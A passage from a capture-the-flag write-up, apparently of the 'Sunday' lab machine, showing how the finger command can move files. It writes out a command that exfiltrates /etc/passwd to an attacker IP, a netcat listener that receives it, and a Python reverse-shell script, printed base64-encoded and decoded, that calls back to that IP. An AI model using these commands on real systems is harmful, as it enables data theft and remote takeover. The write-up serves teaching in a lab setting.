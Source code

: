 This is the best I was able to achieve as far as determining what `overwrite`
was doing with only sammy access. If you have better ideas, I’d love to hear
them in the comments.

### finger for File Transfer

While working on this post, I was checking out
[gtfobins](https://gtfobins.github.io/), and their page on finger shows how it
can be used for file transfer. For example, to exfil the password file from
Sunday, with the listener started locally:

    
    
    root@sunday:~# finger "$(base64 /etc/passwd)"@10.10.14.5
    [10.10.14.5]
    
    
    
    root@kali# nc -lnvp 79 | base64 -d > passwd
    listening on [any] 79 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 54768
    
    root@kali# cat passwd
    root:x:0:0:Super-User:/root:/usr/bin/bash
    daemon:x:1:1::/:
    ...[snip]...
    

You can upload files to a target machine as well:

    
    
    root@kali# cat shell.py | base64 | nc -lp 79
    
    
    
    root@sunday:~# finger x@10.10.14.5 > shell.b64
    

The resulting file in this case had some IP info, separated with a newline,
but we can clean that up:

    
    
    root@sunday:~# cat  shell.b64
    [10.10.14.5]
    IyEvdXNyL2Jpbi9weXRob24KCmltcG9ydCBzb2NrZXQKaW1wb3J0IHN1YnByb2Nlc3MKaW1wb3J0IG9zCgpzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmNvbm
    5lY3QoKCIxMC4xMC4xNC41Iiw0NDMpKQpvcy5kdXAyKHMuZmlsZW5vKCksMCkKb3MuZHVwMihzLmZpbGVubygpLDEpCm9zLmR1cDIocy5maWxlbm8oKSwyKQpwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2gi
    LCItaSJdKTsK
    
    root@sunday:~# cat  shell.b64 | head -2 | tail -1 | base64 -d
    #!/usr/bin/python
    
    import socket
    import subprocess
    import os
    
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.5",443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"]);
    
